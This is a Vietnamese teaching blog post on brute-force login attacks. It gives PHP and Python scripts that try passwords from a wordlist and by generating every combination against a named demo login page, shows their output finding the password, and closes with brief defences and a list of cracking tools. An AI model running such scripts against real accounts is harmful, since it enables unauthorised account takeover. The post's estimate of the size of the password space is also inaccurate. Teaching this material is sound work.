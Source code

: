 ```yaml
---
layout: post
title: Hiểu thêm về tấn công brute force
date: 2015-08-23 11:28
categories: CSATT, attack
---
```

Hôm trước thầy Tuấn Anh đã nhắc đến phương pháp này, tuy nhiên tôi sẽ làm rõ thêm một số vấn đề, đây không phải là một bài giải cặn kẽ cho các bạn, nó mang tính định hướng nhiều hơn.

# Code sample
Giả sử tôi có trang đăng nhập là http://tqk.itps.com.vn/demo.php. tôi sẽ tiến hành brute mật khẩu của user: test@demo.brute

PHP
````php
<?php
$dic = ['demo', '123', '1234', '123456', 'test', 'demo1', 'demo123', '123demo'];
foreach ($dic as $password) {
  $email = 'test@demo.brute';
  $url = 'http://tqk.itps.com.vn/demo.php';
  $data_string = 'email=' .urldecode($email). '&password=' .urlencode($password);
  $ch = curl_init();
  curl_setopt($ch, CURLOPT_URL, $url);
  curl_setopt($ch, CURLOPT_POST, 1);
  curl_setopt($ch, CURLOPT_POSTFIELDS, $data_string);
  curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
  $result = curl_exec($ch);
  curl_close($ch);
  if (strpos($result, 'talent') == false){
    echo "<pre> Password: " .$password. " => Wrong password!</pre>";
  } else{
    echo "<pre> Password: " .$password. " => You got it.</pre>";
  }
  
  }
?>
```
Run test:

````
Password: demo => Wrong password!
Password: 123 => Wrong password!
Password: 1234 => Wrong password!
Password: 123456 => Wrong password!
Password: test => Wrong password!
Password: demo1 => Wrong password!
Password: demo123 => You got it.
Password: 123demo => Wrong password!
````

Python:
```python
import requests
pwlist = ['demo', '123', '1234', '123456', 'test', 'demo1', 'demo123', '123demo']
url = 'http://tqk.itps.com.vn/demo.php'
for password in pwlist:
  payload = {'email':'test@demo.brute', 'password':password}
  req = requests.post(url, data=payload)
  if('talent' in req.text):
    print('Password found:', password)
```

````
Admin@LEOK-PC
$ py demobrute.py
Password found: demo123
````
Trên đây tôi đã demo cho các bạn phương pháp brute bằng từ điển - dictionary hay wordlist ( từ điển ở đây chính là array/list tôi đưa vào, thông thường thì lấy từ điển từ file). tôi sẽ không đi sâu vào code ( nếu như một số bạn không hiểu), mà chủ yếu là để các bạn nhìn ra rằng phương pháp tấn công này được áp dụng như thế nào. Nói thêm rằng thông thường các worldlist sẽ được khởi tao thông qua các thuật toán, pattern để giảm bớt các mật khẩu "vô nghĩa", nhưng không phải luôn luôn như thế.

Việc tấn công có hay không sử dụng từ điển đều được hoạt động trên cùng cơ chế, tức là bạn sẽ phải generate ra các password theo pattern ( bao nhiêu kí tự, thường hay hoa, hay giả sử đã biết kí tự gì đó...v.v..) rồi lần lượt thực hiện việc đăng nhập và dựa vào kết quả trả về để xác định mật khẩu đúng.

Xem ví dụ sau, ở đây tôi sử dụng itertools trong python để generate wordlist:
```python
import requests
import itertools
import time
charset = 'abcdefghijklmnopqrstuvwxyz0123456789'
url = 'http://tqk.itps.com.vn/demo.php'
res = itertools.product(charset, repeat=6)
start_time = time.time()
for i in res:
    password = ''.join(i)
    payload = {'email':'test@demo.brute', 'password':password}
    req = requests.post(url, data=payload)
    print('Trying password: ', password)
    if('talent' in req.text):
        print('Password found:', password)
        print('\nTaken %s seconds to crack very easy password' %time.time() - start_time)
    else:
        print('Failed.....')
```

Và khi tôi chạy đoạn code này, với một máy tính "bình dân" của tôi, ước tính phải mất đến hơn 3 năm để có thể duyệt hết được số lượng hơn 2 tỉ mật khẩu đơn giản có độ dài 7 kí tự chỉ bao gồm chữ cái thường và chữ số. ( Ở đây tôi không đề cập đến việc perfomance, multithreading, đường truyền, sử dụng GPU và một số vấn đề khác). Một con số đáng kể.

Đa số các tấn công brute force áp dụng vào các dịch vụ đăng nhập web/server ( via GET/POST) và tấn công vào các mã hóa, hàm băm ( sau này các bạn sẽ được tìm hiểu về hàm băm trong môn CSLT Mật mã), SSH, cùng một số sản phẩm khác.

Tôi sẽ nói qua về việc brute hàm băm (sử dụng thuật toán "một chiều" tức là có mã hóa nhưng không có giải mã), đó là chúng ta sử dụng các bản rõ, nằm trong wordlist, rồi thực hiện mã hóa sau đó so sánh với bãn mã cần crack. Tất nhiên, các mật mã hàm băm vẫn có xác suất trùng lặp, có nghĩa là có thể có 2 bản rõ nhưng cùng một bản mã, tuy nhiên xác suất này rất nhỏ, đủ để người ta chấp nhận được.

Có thể hiểu việc brute giống như các bạn đang thử làm một điều gì đó có phù hợp với tôi hay không, như thử giày, thử công việc, thử người yêu ;))) Đại khái là như thế đó.

# Protection

Vậy chắc chắn tấn công brute force sẽ phá vỡ tính chất của ATTT của một hệ thống thông tin nếu không có biện pháp khắc phục. Về cơ bản, các máy chủ có nhiều cách để bảo về khỏi các cuộc tấn công đơn giản này bằng cách cấu hình rule cho firewall, hoặc cũng có thể áp dụng ngay trên các ứng dụng đăng nhập, như captcha là một ví dụ điển hình, hay việc giới hạn số lần đăng nhập thất bại trong khoảng thời gian nào đó. Bạn đọc có thể tự tìm hiểu thêm.

# More information

* Trong suốt bài viết tôi không hề muốn sử dụng đến từ "mật khẩu", vì đơn giản, chúng ta đang học một môn chuyên nghành, và tôi nghĩ "mật khẩu" không phải là từ có thể thay thế cho "password".

* Trên bài viết tôi có đề cập đến việc sử dụng code cho việc brute force, tuy nhiên, hiện tại có rất nhiều công cụ mạnh mẽ giúp chúng ta tạo wordlist, crack hash, crack network password có thể kể đến như [John The Ripper](http://www.openwall.com/john/), [Hashcat](http://hashcat.net/oclhashcat/), [Hydra](https://github.com/vanhauser-thc/thc-hydra), [burpsuite](https://portswigger.net/burp/), [cewl](https://digi.ninja/projects/cewl.php)

* Toàn bộ code các bạn có thể xem [tại đây](https://github.com/bytekve/bytekve.github.io/tree/master/codesample).